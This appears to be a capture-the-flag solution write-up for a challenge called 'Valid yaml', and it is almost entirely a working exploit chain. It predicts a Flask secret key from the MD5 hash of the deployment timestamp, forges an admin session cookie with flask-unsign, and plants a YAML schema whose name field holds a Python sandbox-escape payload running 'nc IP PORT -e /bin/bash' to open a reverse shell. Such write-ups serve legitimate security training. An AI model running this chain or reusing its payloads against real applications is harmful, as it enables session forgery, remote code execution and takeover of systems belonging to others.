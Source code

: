 # Valid yaml

Generate SECRET (timestamp is the minute the instance is deployed)

```python
import datetime
import hashlib

date = datetime.datetime.utcnow().strftime("%d/%m/%Y %H:%M")
print(date)
key = hashlib.md5(date.encode()).hexdigest()
print(key)
```

Sign session cookie:

```bash
# Craft session cookie (cookie name = session)
flask-unsign --sign --cookie "{'id': 'nils'}" --secret '8ff36e9e10763f2e11f7fc59846342d4'
```

Create new schema: (at /admin/schemas)

```yaml
name: str([x.__init__.__globals__["sys"].modules["os"].system("nc IP PORT -e /bin/bash") for x in ''.__class__.__base__.__subclasses__() if "_ModuleLock" == x.__name__])
age: int(max=200)
height: num()
awesome: bool()
```

Validate the schema with date to trigger the payload:

```yaml
name: Bill
age: 200
height: 6.2
awesome: True
```